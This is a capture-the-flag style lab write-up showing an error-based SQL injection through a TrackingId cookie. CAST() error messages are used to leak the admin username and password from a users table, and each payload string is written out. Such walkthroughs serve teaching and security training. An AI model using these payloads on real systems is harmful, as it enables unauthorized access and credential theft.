

### Visible error-based SQL injection : PRACTITIONER

---

> Try injecting a `'` in the TrackingId cookie.
> See an error message.


> This states that the `'` causes an error. Try adding another one to close of the opened string.
> The error disappears and the application works normally.

> Try adding a comment after the single qoute, and observe that the website works normally.
```
ye4d0aqqHSSKqYvy'--
```

> Since there are visible error messages, we can try to use the `CAST()` function.
```
ye4d0aqqHSSKqYvy' AND CAST((SELECT 1) AS INT)--
```



> Type boolean, so try to add an equality.
```
ye4d0aqqHSSKqYvy' AND CAST((SELECT 1) AS INT) = 1--
```
> It works properly. Now we know the syntax of the CAST expression and how to make it work, lets try to obtain the administrator username and password from the users table.
```
ye4d0aqqHSSKqYvy'AND CAST((SELECT username FROM users LIMIT 1) AS INT) = 1--
```
>This doesn't work as the last couple of characters aren't read by the query, so we remove the cookie and check.
```
'AND CAST((SELECT username FROM users LIMIT 1) AS INT) = 1--
```


> The error message displays the required data. What happens is that what we need is of type string, but we are casting it to integer. So the error message displays where our errors are. We exploit this again by trying to obtain the password.
```
'AND CAST((SELECT password FROM users LIMIT 1) AS INT) = 1--
```


> Now login as admin with the given password and complete the lab.

---
